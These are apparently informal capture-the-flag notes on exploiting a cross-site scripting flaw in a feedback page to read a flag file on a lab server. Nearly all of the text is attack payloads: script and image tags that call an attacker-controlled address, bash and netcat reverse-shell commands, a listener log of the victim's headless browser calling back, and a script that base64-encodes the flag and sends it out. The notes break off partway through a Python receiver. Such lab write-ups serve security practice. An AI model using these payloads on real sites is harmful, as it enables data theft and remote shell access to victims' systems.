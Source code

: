 ![yummy](https://github.com/user-attachments/assets/59424453-5fbc-4d1a-9244-93be27321803)

Can you read the flag at `http://10.10.3.219:8080/flag.txt`?

/view_feedback 

reverse_shell using xss is possible

```
<img src="http://10.10.67.58:5667" />

/bin/bash -i >& /dev/tcp/10.10.67.58/4444 0>&1
```

python3 -m http.server 80 

```
<img src="http://10.10.67.58:5667" onerror="new Image().src='http://10.10.67.58:4444/?exec='+btoa('nc -e /bin/bash 10.10.67.58 4444')">
```

```
<script>
fetch("http://10.10.8.202:5667/?exec="+btoa("bash -i >& /dev/tcp/10.10.8.202/5667 0>&1"));
</script>


nc -lvnp 5667
Listening on 0.0.0.0 5667
Connection received on 10.10.49.94 60706
GET /?exec=YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC44LjIwMi81NjY3IDA+JjE= HTTP/1.1
Host: 10.10.8.202:5667
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate

ls

```

(found attack surface)
it can be touched, reached to my system
but the shell.sh is not executed 

hmm okay well 

```python
(to the target)
<script>
fetch("http://10.10.49.94:8080/flag.txt")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.8.202:5667/?leak="+btoa(data));  // Send flag data to your server
  });
</script>


(from my system)
from http.server import BaseHTTPRequestHandler, HTTPServer
import base64

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
```